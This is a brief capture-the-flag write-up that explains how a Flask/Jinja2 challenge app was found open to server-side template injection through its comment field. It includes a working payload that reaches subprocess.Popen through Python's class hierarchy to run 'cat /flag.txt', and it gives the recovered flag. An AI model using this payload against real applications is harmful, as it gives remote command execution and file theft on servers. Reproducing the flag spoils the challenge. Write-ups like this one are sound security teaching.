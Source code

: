 Authors mentioned that the application uses flask with jinja2. So i figured it must use ssti<br>
I put {{7*7}} into all the fields and only the comment field showed 49<br>
They also mentioned flag was at /flag.txt<br>

Payload:``` {{dict.mro()[-1].__subclasses__()[365]('cat /flag.txt',shell=True,stdout=-1).communicate()[0]}}```<br>
Output:``` b'MetaCTF{somet1mes_th3_r3nderer_goe$_on_b3nder}\n'```
